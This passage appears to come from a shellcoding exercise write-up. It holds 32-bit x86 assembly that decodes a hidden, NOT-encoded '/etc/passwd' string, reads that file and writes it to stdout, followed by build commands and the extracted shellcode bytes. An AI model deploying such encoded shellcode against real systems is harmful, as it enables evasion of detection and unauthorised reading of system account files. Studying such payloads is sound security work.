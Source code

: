```asm
	loop decode
	sub 	ebx, 11		; Restore the address string


	mov	al, 5
	xor	ecx, ecx
	int	0x80
	
	mov	esi, eax
	jmp	read

exit:
	mov	al, dl 		
	xor	ebx, ebx
	int	0x80

read:
	mov	ebx, esi
	mov	al, 3
	sub	esp, 1
	lea	ecx, [esp]
	mov	dl, 1
	int	0x80

	xor	ebx, ebx
	cmp	ebx, eax
	je	exit

	mov	bl, 1
	mov al, bl
	add al, 3
	mov	dl, bl
	int	0x80
	
	add	esp, 1
	jmp	read

two:
	call one
	.string db 0xd0,0x9a,0x8b,0x9c,0xd0,0x8f,0x9e,0x8c,0x8c,0x88,0x9b	; Encoded string with not 
```

Compile, test and calcule the %:

```sh
$ nasm -f elf32 read.nasm -o read.o
$ ld read.o -o read
$ objdump -d ./read|grep '[0-9a-f]:'|grep -v 'file'|cut -f2 -d:|cut -f1-7 -d' '|tr -s ' '|tr '\t' ' '|sed 's/ $//g'|sed 's/ /\\x/g'|paste -d '' -s |sed 's/^/"/'|sed 's/$/"/g'
"\x31\xc0\x89\xc3\x89\xc1\x89\xc2\xeb\x3e\x5b\xb1\x0b\xf6\x13\x43\xe2\xfb\x83\xeb\x0b\xb0\x05\x31\xc9\xcd\x80\x89\xc6\xeb\x06\x88\xd0\x31\xdb\xcd\x80\x89\xf3\xb0\x03\x83\xec\x01\x8d\x0c\x24\xb2\x01\xcd\x80\x31\xdb\x39\xc3\x74\xe6\xb3\x01\x88\xd8\x04\x03\x88\xda\xcd\x80\x83\xc4\x01\xeb\xdd\xe8\xbd\xff\xff\xff\xd0\x9a\x8b\x9c\xd0\x8f\x9e\x8c\x8c\x88\x9b"
```

